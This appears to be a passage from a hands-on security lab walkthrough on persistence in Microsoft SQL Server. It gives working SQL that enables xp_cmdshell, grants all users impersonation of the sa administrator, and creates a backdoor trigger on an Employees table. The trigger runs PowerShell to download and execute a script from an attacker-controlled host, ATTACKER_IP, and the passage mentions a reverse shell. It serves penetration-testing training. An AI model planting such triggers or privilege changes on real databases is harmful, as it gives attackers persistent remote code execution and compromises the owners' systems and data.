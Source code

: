 Once logged in, click on the New Query button to open the query editor:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/eb3aaca1ed1da7d1e08f0c3069a5633a.png)

Run the following SQL sentences to enable the "Advanced Options" in the MSSQL configuration, and proceed to enable xp_cmdshell.

```
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```

After this, we must ensure that any website accessing the database can run xp_cmdshell. By default, only database users with the sysadmin role will be able to do so. Since it is expected that web applications use a restricted database user, we can grant privileges to all users to impersonate the sa user, which is the default database administrator:

```
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```

After all of this, we finally configure a trigger. We start by changing to the HRDB database:

```
USE HRDB
```

Our trigger will leverage xp_cmdshell to execute Powershell to download and run a .ps1 file from a web server controlled by the attacker. The trigger will be configured to execute whenever an INSERT is made into the Employees table of the HRDB database:

```
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';


```

Now that the backdoor is set up, let's create evilscript.ps1 in our attacker's machine, which will contain a Powershell reverse shell:

![[Pasted image 20220911151553.png]]

We will need to open two terminals to handle the connections involved in this exploit:

